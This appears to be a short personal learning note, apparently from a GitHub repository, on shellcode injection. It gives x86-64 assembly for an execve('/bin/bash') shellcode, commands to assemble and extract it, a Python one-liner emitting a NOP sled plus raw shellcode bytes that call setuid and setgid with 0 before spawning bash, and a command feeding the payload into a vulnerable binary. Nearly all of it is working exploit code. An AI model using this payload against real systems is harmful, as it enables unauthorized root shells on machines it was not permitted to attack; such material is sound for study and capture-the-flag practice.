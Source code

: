 # shellcode injection.

my first ever shellcode written in assembly:

```wasm
.global _start
_start:
.intel_syntax noprefix
  mov rax, 59 # syscall number of execve
  lea rdi, [rip+binsh] # points to binsh
  mov rsi, 0 # makes second argument , argv, NULL
  mov rdx, 0 # makes third argument, envp, NULL
  syscall
binsh:
  .string "/bin/bash"
```

we can then assemble the code

```bash
gcc -nostdlib -static shellcode.s -o shellcode.elf
```

```bash
objcopy --dump-section .text=shellcode-raw shellcode.elf
```

```bash
python -c "print('\x90'*880 + '\x48\x31\xff\x48\xc7\xc0\x69\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x6a\x00\x00\x00\x48\xc7\xc7\x00\x00\x00\x00\x48\xc7\xc0\x3b\x00\x00\x00\x48\x8d\x3d\x10\x00\x00\x00\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00')" > shellcode
```

```bash
hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode-raw
```

```bash
( cat ~/shellcode;cat ) | ./binary
```

### references.

- [https://gist.github.com/camargo/68f761533c249688b9596bf03253309a](https://www.notion.so/68f761533c249688b9596bf03253309a)
- [https://dhavalkapil.com/blogs/Shellcode-Injection/](https://dhavalkapil.com/blogs/Shellcode-Injection/)